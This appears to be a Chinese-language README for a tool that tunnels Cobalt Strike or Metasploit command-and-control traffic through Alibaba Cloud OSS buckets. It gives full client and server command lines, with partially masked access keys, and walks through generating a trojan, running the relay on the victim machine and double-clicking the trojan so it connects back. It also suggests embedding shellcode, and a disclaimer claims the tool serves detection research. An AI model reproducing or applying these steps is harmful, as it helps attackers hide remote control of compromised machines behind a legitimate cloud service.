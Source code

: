 # aliyun-oss-c2
利用阿里云oss，来转发http流量，该代码是在大佬9bie基础上改造而来（大佬的是利用腾讯云OSS）：https://github.com/9bie/oss-stinger

可以用来cs/msf上线等

# 免责声明
*****
该工具仅用于各安全公司用于提升自己安全产品检测能力

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
*****

# 如何使用
```
[WARN] 需要确保OSS ACCESS KEY和OSS ACCESS KEY SECRET的权限最低
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080，即CS监听本地端口
  -bucket string
        请输入你的阿里云bucket
  -endpoint string
        请输入你Bucket对应的Endpoint，以华东1（杭州）为例，填写为oss-cn-hangzhou.aliyuncs.com
  -id string
        输入你的阿里云OSS ACCESS KEY
  -key string
        输入你的阿里云OSS ACCESS KEY SECRET
  -mode string
        client/server 二选一
[WARN] 运行案例：
[WARN] 在要上线机器上运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode client -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
[WARN] 在服务器（C2机器上）运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode server -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```
首先，现在cs生成一个http的listen，并把host都改成127.0.0.1，然后生成木马
![1.jpg][1]

1、去阿里云申请一个OSS的Bucket列表，Buckert的名称对应上面的-bucket的值
https://oss.console.aliyun.com/bucket
![img.png](.README/img.png)
点击创建好的Bucket即可获取到对应的endpoint，即对应上面的-endpoint的值
![img.png](.README/img2.png)
然后再去 `https://ram.console.aliyun.com/users` 拿到。

然后就可以使用我们的工具，先在客户机上起一个转发器。使用命令OSS ACCESS KEY和OSS ACCESS KEY SECRET，记得一定要把权限搞到只能操控该oss

```
# 在要上线机器上运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode client -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```

然后服务器运行
```
# 在服务器（C2机器上）运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode server -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```
然后在客户机双击你的木马，就能上线了
![img_1.png](.README/img_1.png)

# tips
如果要弄成一个文件，自行修改代码把shellcode加入进去然后用`go runshellcode()`即可。
secretkey和secretid的安全问题，目前没有什么好的解决方案，当前只能把权限修改成最低。

# TODO
 - shellcode加载
 - 自定义修改流量特征
 - 合并阿里云/aws/腾讯云等支持
 - 添加其他协议支持（HTTPS会优先考虑）
